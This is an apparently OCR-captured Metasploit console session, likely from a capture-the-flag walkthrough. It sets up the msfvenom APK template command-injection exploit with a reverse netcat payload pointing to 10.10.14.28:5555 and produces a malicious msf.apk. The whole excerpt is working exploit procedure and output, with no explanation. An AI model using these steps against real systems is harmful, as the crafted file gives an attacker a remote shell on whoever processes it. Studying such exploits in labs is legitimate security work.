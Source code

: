 ```


msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > show options

Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.apk          yes       The APK file name


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.88.10    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LHOST 10.10.14.28
LHOST => 10.10.14.28
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > set LPORT 5555
LPORT => 5555
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) options

Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.apk          yes       The APK file name


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.28      yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port

   **DisablePayloadHandler: True   (no handler will be created!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > run

[+] msf.apk stored at /root/.msf4/local/msf.apk
```